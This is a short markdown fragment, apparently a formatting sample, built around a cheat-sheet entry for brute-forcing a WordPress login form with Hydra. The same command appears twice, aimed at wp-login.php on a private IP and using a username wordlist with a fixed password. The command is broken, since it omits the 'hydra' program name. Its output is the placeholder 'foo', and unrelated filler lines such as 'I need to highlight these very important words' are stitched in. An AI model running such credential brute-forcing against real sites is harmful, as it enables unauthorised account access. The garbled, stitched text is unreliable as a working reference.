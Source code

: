 # Hydra


## Bruteforce HTTP Form
`code`

[click on this link](#hydra)
```shell
root@machine:~$ -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
foo
```



```console
root@machine:~$ -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
foo
```
	I need to highlight these ==very important words==.
